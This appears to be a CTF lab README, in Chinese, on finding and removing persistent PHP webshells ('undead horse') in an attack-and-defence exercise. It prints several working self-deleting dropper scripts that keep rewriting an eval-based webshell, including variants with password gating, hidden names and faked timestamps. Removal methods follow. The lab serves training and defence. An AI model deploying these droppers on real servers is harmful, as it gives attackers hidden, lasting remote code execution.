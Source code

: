 ```bash
 ____    ______  ____       ___    ______  __      __  ____      
/\  _`\ /\__  _\/\  _`\   /'___`\ /\  _  \/\ \  __/\ \/\  _`\    
\ \ \/\_\/_/\ \/\ \ \L\_\/\_\ /\ \\ \ \L\ \ \ \/\ \ \ \ \ \/\ \  
 \ \ \/_/_ \ \ \ \ \  _\/\/_/// /__\ \  __ \ \ \ \ \ \ \ \ \ \ \ 
  \ \ \L\ \ \ \ \ \ \ \/    // /_\ \\ \ \/\ \ \ \_/ \_\ \ \ \_\ \
   \ \____/  \ \_\ \ \_\   /\______/ \ \_\ \_\ `\___x___/\ \____/
    \/___/    \/_/  \/_/   \/_____/   \/_/\/_/'\/__//__/  \/___/ 
                                                                                                                                
# @Author: 探姬
# @Date:   2024-08-26 14:34
# @Repo:   github.com/ProbiusOfficial/ctf2awd
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - ctf2awd靶场 : 应急响应 - 不死马查杀 --- 
```

## 配置信息

docker - ubuntu:22.04
username: `helloctf`
password: `123456`

开启题目后会得到 `IP:PORT` 信息，这里将不再能使用浏览器直接打开，你需要使用 `ssh` 连接到 GameBox 上:

```bash
ssh username@ip -p port
```

内部端口在无特殊声明的情况下均为 22 端口，由于存在 MySQL 环境，最低内存请给256，建议512。

## 关于本关卡

PHP"不死马"指的是一种即使被删除了文件，进程仍然继续运行的木马程序。

它通过不断在内存中创建新的木马文件，使得管理员很难彻底清除它。虽然名称中有"不死"一词，但这种木马并没有实现真正的无文件攻击或内存中的webshell攻击，因此严格来说，它并不属于"内存马"的范畴。

最常规的不死马：

```php
<?php
set_time_limit(0); # 设置允许脚本运行的时间，单位为秒。如果设置为0（零），没有时间方面的限制。
ignore_user_abort(1); # 函数设置与客户机断开是否会终止脚本的执行，如果设置为true，则忽略与用户的断开。
unlink(__FILE__); # 删除自身
while (1) {
$content = '<?php @eval($_POST["cmd"]); ?>';
file_put_contents("shell.php", $content);
usleep(10000); # usleep函数：延迟执行当前脚本若干微秒,1秒 = 1000000 微秒
}
?>
```

在最常规不死马的基础上进行各类扩展：

如，将 `$content` 内容改为 `<?php if(md5($_POST["passwd"])=="MD5(YOUR_PASS)"){@eval($_REQUEST["cmd"]);} ?>`，可有效防止蹭车，被他人连接木马的情况。
或者，在其中加入文件时间的修改，或者创建文件为 `.xxx.php` 的隐藏文件形式，用于迷惑对方选手。

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = './.index.php';
$code = '<?php if(md5($_POST["passwd"])=="MD5(YOUR_PASS)"){@eval($_REQUEST["cmd"]);} ?>';
while (1){
	file_put_contents($file,$code);
	system('touch -m -d "2017-11-12 10:10:10" .index.php');
	usleep(50000);
}
?>
```

亦或者，写入多个文件，并且赋予合理名字，用于混淆对方选手。

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.login.php';
$file1 = '/admin/.register.php'; 
$code = '<?php if(md5($_POST["passwd"])=="MD5(YOUR_PASS)"){@eval($_REQUEST["cmd"]);} ?>';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 18:10:12" .login.php');
    file_put_contents($file1,$code);
    system('touch -m -d "2020-12-01 18:10:12" /admin/.register.php');
    usleep(5000);
}
?>

```

删除这些脚本文件并不能解决问题，因为PHP在执行时已经将它们读入并解释成opcode运行。

通常情况下，清除不死马的方法有以下几种：

- 重启服务器 / php服务

- 强行kill后台进程 `ps aux|grep www-data|awk '{print 2}'| xargs kill -9`

- 使用低Sleep方式竞争写入同名文件，覆盖不死马

- 基于文件系统规则，删除文件后立即创建对应木马的同名文件夹

但由于大多数AWD环境使用Docker容器，并且权限限制较多，前两种方法通常不起作用，因此后两者成为防御不死马最可靠的解决方案。

****

**使用低Sleep方式竞争写入同名文件，覆盖不死马:**

```php
<?php
set_time_limit(0); 
ignore_user_abort(1);
unlink(__FILE__); 
while (1) {
$content = 'Noting';
file_put_contents("shell.php", $content);
usleep(1000); 
}
?>
```
使用bash命令一键执行：

```bash
echo "<?php set_time_limit(0); ignore_user_abort(1); unlink(__FILE__); while (1) { file_put_contents('shell.php', 'Noting'); usleep(10); } ?>" > /var/www/html/kill.php && timeout 5 curl http://127.0.0.1/kill.php
```


## 其他

笔者在编写该关卡时，看到了另一种 PHP内存马的实现，感兴趣的师傅可以看看：[【利用 PHP-FPM 做内存马的方法】](https://tttang.com/archive/1720/)